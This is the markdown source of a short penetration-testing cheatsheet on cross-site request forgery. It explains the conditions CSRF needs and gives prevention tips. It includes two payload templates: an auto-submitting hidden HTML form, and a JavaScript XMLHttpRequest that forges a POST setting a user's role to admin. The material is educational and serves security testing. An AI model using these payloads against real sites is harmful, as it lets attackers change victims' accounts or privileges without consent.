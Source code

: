 ```yaml
---
title: "CSRF attack"
subtitle: ""
draft: false
author: "Hato0"
description: "CSRF cheatsheet"

tags: ["web", "penetest", "csrf"]
categories: ["Penetest - Web"]

hiddenFromHomePage: true
hiddenFromSearch: false
twemoji: false
lightgallery: false
ruby: false
fraction: true
fontawesome: true
linkToMarkdown: true
rssFullText: false
toc:
  enable: true
  auto: true
code:
  copy: true
  maxShownLines: 50
share:
  enable: true
comment:
  enable: true
---
```

# Cross-site request forgery

Cross-site request forgery (also known as CSRF) is a web security vulnerability that allows an attacker to induce users to perform actions that they do not intend to perform. This attack can happend by phishing, clone site, etc ... Conditions have to be present for this attack  to be perform : 

-   **A relevant action.** : Change password, email, rights, ...
-   **Cookie-based session handling.** : Website with cookie base for sessions are an incredible candidate for this type of attack
-   **No unpredictable request parameters.** Every element should be known or obtainable to be able to forge the request

Here is a schema to check for CSRF from PATT:

![alt CSRF_Detection](https://github.com/swisskyrepo/PayloadsAllTheThings/raw/master/CSRF%20Injection/Images/CSRF-CheatSheet.png?raw=true)


## Some examples

- No defenses
    {{< highlight html "lineNos=false" >}}
<form method="$method" action="$url">  
    <input type="hidden" name="$param1name" value="$param1value">  
</form>  
<script>  
    document.forms\[0\].submit();  
</script>
    {{< /highlight >}}

- JSon and JS combined

    {{< highlight javascript "lineNos=false" >}}
<script>
var xhr \= new XMLHttpRequest();
xhr.open("POST", "http://www.example.com/api/setrole");
xhr.setRequestHeader("Content-Type", "text/plain");
//xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
//xhr.setRequestHeader("Content-Type", "multipart/form-data");
xhr.send('{"role":admin}');
</script>
    {{< /highlight >}}

## How to prevent them 

-   Unpredictable with high entropy, as for session tokens in general.
-   Tied to the user's session.
-   Strictly validated in every case before the relevant action is executed.